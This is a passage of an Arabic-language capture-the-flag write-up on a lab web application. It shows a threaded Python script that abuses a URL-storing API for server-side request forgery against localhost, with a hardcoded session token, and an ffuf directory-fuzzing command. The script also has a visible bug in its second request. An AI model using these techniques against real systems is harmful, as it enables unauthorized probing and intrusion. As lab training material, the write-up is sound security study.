 ```json
{"message":"File stored from URL successfully","path":"/api/uploads/d7a46917-2370-420a-9e4e-f8a0da440e21"}
```
بعدين لازم تروح للعنوان حق الملف، هذا السكربت اللي كتبته:

```python

#!/usr/bin/python
import requests
import sys
import json
from concurrent.futures import ThreadPoolExecutor 

url = 'http://storage.cloudsite.thm'
token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImFAYS5iIiwic3Vic2NyaXB0aW9uIjoiYWN0aXZlIiwiaWF0IjoxNzQ2MDE0MDA2LCJleHAiOjE3NDYwMTc2MDZ9.vlEvdMsy6_RqGWVr9KnbOZuklIg0Of5Z7Z8bHCYx9hM'
cookies = {'jwt': token}
headers = {'Content-Type': 'application/json'}

def send_requests(line):
    line = line.strip()
    if not line:
        return
    data = {'url':f'http://localhost/{line}'}
    try:
        req1 = requests.post(f'{url}/api/store-url', cookies=cookies, data=json.dumps(data), headers=headers)
        req1.raise_for_status()
        local_file = req1.json()['path']
        req2 = requests.get(f'{url}/local_file', cookies=cookies)
        if not '404' in req2.text:
            print(f'path={local_file}')
    except Exception as e:
        print('[-] Error:', e)

with open(sys.argv[1], 'r') as file:
    paths = file.readlines()
with ThreadPoolExecutor(max_workers=20) as executer:
    executer.map(send_requests, paths)
```

مو أفضل سكربت لكن أتحسن مع الممارسة بإذن الله، المهم أنه مافي أي ملف يمدينا نوصل له من خلال SSRF، خلينا نروق شوية ونشوف الطرق اللي يمدينا نفحصها على الموقع، فيه طريق مثير وهو api/, خليني أستخدم ffuf عشان أشوف إيش الصفحات اللي تحته:

```bash
rabbitstore ffuf -u http://storage.cloudsite.thm/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImFAYS5iIiwic3Vic2NyaXB0aW9uIjoiYWN0aXZlIiwiaWF0IjoxNzQ2MDE0MDA2LCJleHAiOjE3NDYwMTc2MDZ9.vlEvdMsy6_RqGWVr9KnbOZuklIg0Of5Z7Z8bHCYx9hM"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://storage.cloudsite.thm/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```